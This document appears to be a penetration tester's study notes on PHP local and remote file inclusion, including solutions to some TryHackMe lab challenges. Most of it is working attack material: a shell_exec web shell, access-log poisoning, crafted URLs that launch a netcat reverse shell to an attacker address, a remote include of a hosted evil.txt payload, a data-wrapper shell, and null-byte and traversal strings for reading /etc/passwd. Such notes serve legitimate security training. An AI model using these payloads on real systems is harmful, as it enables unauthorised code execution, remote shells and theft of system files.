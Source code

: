 

File Inclusion vulns require attacks to execute code and write shell payload somewhere.  
  
**LFI** - Local File Inclusion - When the file is loaded from the same web server.  
**RFI** - Remote File Inclusion - When the file is loaded from an external source.  
  
Exploitation depends on both the language the app is written in and the server config.  
Ex:  
PHP - the version of the language runtime and web server configs (_php.ini_) values like _register_globals_ and _allow_url_ wrappers make a difference.  
  
  
If bind/ reverse bind won't properly execute binaries, verify whether it's a [fully interactive TTY](Fully%20Interactive%20TTY.md):


### ID'ing:
Can be discovered in same way as directory traversals: locate parameters we can manipulate and attempt to use them to load arbitrary files, then execute the contents.  
  
Check parameters to see if they are vulnerable to RFI by changing their values to a URL instead of a local path.  
Default configs for modern PHP versions disables remote URL includes, but we should still test.  
Can use [nc](netcat.md), Apache, or Python to handle the request.  
Host payloads on different ports as any remote connection may be subject to internal firewalls or routing rules.  
  
  
### Exploiting LFI:
WebApp PHP:  
```php
<?php  
    $file = $_GET["file"];  
    include $file;  ?>
```
	App reads in the _file_ param from the request query string, then uses that value with an _include_ statement  
	Means app will execute any PHP code w/in the specified file.  
  
***Note:** If the file were opened with _fread_ and _echo_ were used to display the contents, then any code w/in the file would be displayed rather than executed.  
  
  
### Contaminating Log Files:
If we can't upload a file to the server, we can try to inject code through log file poisoning.  
Submitting a request that includes PHP then using LFI to load the payload can work as most app servers will log all URLs that are requested.  
  
Ex (Using Win client w/ taco sight up & running):  
• Send a log file payload from attacker ip  
```bash
nc -nv 192.168.xxx.166 80
```
  
(UNKNOWN) \[192.168.xxx.10\] 80 (http) open  
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
	- Written in PHP hence: \<?php ?\>  
	- Bulk of payload is echo command that will print output to the page  
	- Wrapped in _pre_ HTML tags preserving any line breaks or formatting in the results of the function call.  
	- _shell_exec_ executes an OS cmd retrieving from the “cmd” parameter of the GET request.  
	
 
 - Craft URL that utilize Directory Traversal to locate the Apache _access.log_ file, exploit the app's _include $file;_ statment, & execute the PHP code.
 ```null
 http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
 
Result:
![[log_poisoning.png]]


To pop a shell:  
- Start listener on attacker box  
```bash
nc -nlvp 80
```
  
- Use log file poisoning to craft URL for reverse bind shell:  
```null
http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20192.168.xxx.166%2080%20-e%20cmd.exe
```
   
*NOTE: Important to read any errors that are displayed.  
- Might disclose full web directory  
- Might disclose a define directory the devop forced the webapp to read from (Can circumvent via _?file=directory/../../../../etc/passwd_)  
- Might disclose filtering: Devops filters out _../_ so using _....//....//....//_ works.  
  
  
  
## TryHackMe LFI Challenges:
1. Input form is broken, but need to send POST request with ‘file=’  
```bash
curl -X POST http://10.10.44.240/challenges/chall1.php -d "file=etc/flag1"
```
 
2. Welcome Guest! Only Admins can access the page!  
	- Within Dev > Console  
```html
document.cookie="THM=admin"
```
	& refresh
	
 - Refreshes as admin page  
```html
document.cookie="THM=/etc/flag2"
```
	& refresh.  

- Returns error "Warning: include(includes//etc/flag2.php)  
	- Shows that files are being hosted from w/in _includes_ directory  
	- Shows that there's two _/_ from _includes_ to _etc_  
	- Shows request ends looking for _.php_ files  
```html
document.cookie="THM=../../../../../etc/flag2%00"
```
	& refresh.  
  
3. Include a file  
```null
http://10.10.44.240/challenges/chall3.php?file=/etc/flag3
```

- Returns error “Warning: include(etcflag.php)”  
	- Shows it's exluding _/_ char (Tested for multiple _/_ and all are being filtered)  
	- Shows request ends looking for _.php_ files  
	- Both work:  
```bash
curl -X POST http://10.10.44.240/challenges/chall3.php -d "file=/etc/flag3%00 --output -
```
```bash
curl http://10.10.44.240/challenges/chall3.php -H "Content-Type= application/x-www-form-urlencoded" -d "file=/etc/flag3%00 --output -
```

  
  
### RFI:
Easier to exploit, allows for more payload crafting flexibility, but less common than LFIs as the server must be configured very specifically for them.  
Ex:  
PHP apps must be configured w/ _allow_url_include_ set to ‘ON’ (not default in newer versions)  
If the config file is set w/ a **$** is present in _FilesMatch_, then double extensions are not allowed.  
  
Can test by creating a listener on attack box and crafting the URL:
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt
```
	If output on attack box shows a GET request for _/evil.txt_ RFI is possible.  
  
  
\*Older versions of PHP have a vulnerability in which a null byte (%00) will terminate any string.  
This trick can be used to bypass file extensions added server-side (using BurpSuite) and is useful for file inclusions because it prevents the file extension from being considered as part of the string.  
In other words, if an app reads in a parameter and appends “.php” to it, a null byte passed in the parameter effectively ends the string without the “.php” extension.  
This gives an attacker more flexibility in what files can be loaded with the file inclusion vulnerability.  
[http://youtube.com/watch?v=jBtzFGwHvxE](http://youtube.com/watch?v=jBtzFGwHvxE)

\*Another trick for RFI payloads is to end them with a question mark (?) to mark anything added to the URL server-side as part of the query string  
  
  
Simple _webshell_ - software providing Web-based CLI:  
  
- Save the previous php cmd to the _evil.txt_ file  
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
 
- Refresh Apache  
```bash
sudo systemctl restart apache2
```
  
- Once file is in place (_/var/www/html_) & web server running can sent RFI attack URL to vuln web  
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt&cmd=ipconfig
```

Can set _cmd_ to reverse bind w/ **nc** ^  
  
Pre-written backdoors can be found at _/usr/share/webshells_  
  
  
### PHP Wrappers:
Can be used to exploit [Directory Traversal](9.1%20-%20Directory%20Traversal.md) and [LFI](#Exploiting%20LFI) vulns  
  
Can use the _data_ wrapper to embed inline data as part of the URL w/ plaintext or base64 data.  
Provides an alternative payload when local files can't be poisoned.  
  
  
Usage:  
```html
file=data:text/plain,hello world
``` 
	- text/plain - signaling plaintext  
	- , marks start of the contents  
  
  
For shell:  
```bash
http://192.168.xxx.10/menu.php?file=data:text/plain,nc 192.168.xxx.166 8080 -e cmd.exe
```

  

### Null Bytes:
Developers can specify the type of file it's looking for:  
```null
http://target.com/menu.php?file=/etc/passwd
```
becomes
```null
http://target.com/menu.php?file/etc/passwd.php
```

 
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```null
http://target.com/menu.php?file=/etc/passwd%00
```


This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```null
http://target.com/menu.php?file=../../../../etc/passwd/.
```